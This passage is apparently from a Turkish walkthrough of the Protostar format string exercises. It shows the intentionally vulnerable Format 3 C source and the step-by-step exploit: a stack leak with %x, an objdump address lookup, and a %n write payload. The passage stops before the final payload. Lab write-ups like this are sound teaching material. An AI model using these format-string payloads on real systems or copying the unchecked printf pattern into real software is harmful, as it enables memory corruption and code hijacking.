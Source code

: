Adresimizin hemen ardından %60d ekledik. Bunun ne anlama geldiğini [şuradan](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_25_printf.html) okuyabilirsiniz. Basitçe (verilen değer - değişkenin uzunluğu) kadar boşluk karakteri ekliyor diyebiliriz. Bu sayede 4 byte adres + 60 byte karakter ile 64 karakter yazdırdık ve sonraki %n ile de bunu hedef adrese yazmış olduk.

## Format 3
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bir önceki aşamadan farklı olarak burada bizden beklenen değer değişmiş. Önce nereye nasıl yaıyoruz bakalım.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "AAAA" + "%x "*20') | ./format3
AAAA0 bffff4d0 b7fd7ff4 0 0 bffff6d8 804849d bffff4d0 200 b7fd8420 bffff514 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
target is 00000000 :(
```
Yazdığımız A'ları 12'nci sırada gördük. Target değişkeninin adresini bulalım.
```bash
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```
Bu adresi A'ların yerine ekleyip üzerine yazmaya çalışalım.
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xf4\x96\x04\x08" + "%12$n"') | ./format3
��
target is 00000004 :(
```
Eklediğim %x leri kaldırıp sadece adresi bıraktığımda (ki bu adresin uzunluğu 4 byte) hedefe 4 yazmış oluyorum. Benim hedefim ise `0x01025544` yazmak. Geriye `0x01025544 - 0x04 = 0x1025540 = 16930112` byte yazmam lazım.
```bash
```